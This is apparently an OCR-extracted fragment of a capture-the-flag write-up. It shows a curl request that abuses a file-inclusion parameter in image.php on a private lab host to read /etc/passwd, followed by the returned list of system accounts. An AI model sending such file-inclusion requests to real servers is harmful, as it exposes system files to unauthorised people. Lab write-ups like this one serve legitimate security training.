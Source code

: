 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin

uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin

proxy:x:13:13:proxy:/bin:/usr/sbin/nologin

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

backup:x:34:34:backup:/var/backups:/usr/sbin/nologin

list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin

irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin

gnats:x:41:41:Gnats Bug-Reporting System
(admin):/var/lib/gnats:/usr/sbin/nologin

nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

systemd-timesync:x:100:102:systemd Time
Synchronization,,,:/run/systemd:/bin/false

systemd-network:x:101:103:systemd Network
Management,,,:/run/systemd/netif:/bin/false

systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false

systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false

syslog:x:104:108::/home/syslog:/bin/false

\_apt:x:105:65534::/nonexistent:/bin/false

messagebus:x:106:110::/var/run/dbus:/bin/false

uuidd:x:107:111::/run/uuidd:/bin/false

lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false

whoopsie:x:109:117::/nonexistent:/bin/false

avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false

avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false

dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false

colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false

speech-dispatcher:x:114:29:Speech
Dispatcher,,,:/var/run/speech-dispatcher:/bin/false

hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false

kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false

pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false

rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false

saned:x:119:127::/var/lib/saned:/bin/false

usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
```